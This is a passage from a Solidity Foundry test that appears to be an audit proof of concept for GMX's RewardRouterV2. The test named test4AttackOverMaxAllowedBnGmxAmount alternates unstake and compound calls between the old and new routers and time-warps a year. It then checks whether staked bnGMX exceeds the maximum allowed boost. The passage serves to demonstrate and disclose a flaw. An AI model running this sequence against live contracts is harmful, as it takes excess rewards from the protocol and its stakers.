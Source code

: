 ```solidity
        rewardRouterV2New.unstakeGmx(1);
        _printValues(user);

        console.log("-- Unstake left amount (baseStakedAmount / 2 - 1) using new rewardRouterV2 --");
        uint256 amount = unstakeAmount - 1;
        rewardRouterV2Old.unstakeGmx(amount);
        _printValues(user);

        console.log("-- Call compound function of new rewardRouterV2 --");
        rewardRouterV2New.compound();

        vm.stopPrank();

        console.log("After unstaking.");
        _printValues(user);
    }

    function test4AttackOverMaxAllowedBnGmxAmount() public {
        console.log("\n");
        console.log("=======================================================");
        console.log("--------       Over maxAllowedBnGmxAmount       -------");
        console.log("=======================================================");
        console.log("\n");

        vm.startPrank(user);

        rewardRouterV2New.unstakeGmx(1);
        uint256 baseStakedAmount = IRewardTracker(stakedGmxTracker).stakedAmounts(user);
        uint256 amount = baseStakedAmount * 9 / 10 - 1;
        rewardRouterV2Old.unstakeGmx(amount);
        rewardRouterV2New.compound();

        _printValues(user);


        uint256 currentTime = block.timestamp;
        uint256 oneYear = 1 * 365 days;
        vm.warp(currentTime + oneYear);

        rewardRouterV2Old.compound();

        vm.stopPrank();

        console.log("After 1 year.");
        _printValues(user);

        baseStakedAmount = IRewardTracker(stakedGmxTracker).stakedAmounts(user);
        uint256 maxAllowedBnGmxAmount = baseStakedAmount * rewardRouterV2New.maxBoostBasisPoints() / BASIS_POINTS_DIVISOR;
        uint256 stakedBnGmx = IRewardTracker(feeGmxTracker).depositBalances(user, address(bnGmx));
        console.log("Over maxAllowedBnGmxAmount? ", stakedBnGmx > maxAllowedBnGmxAmount ? true : false);

    }
}
```
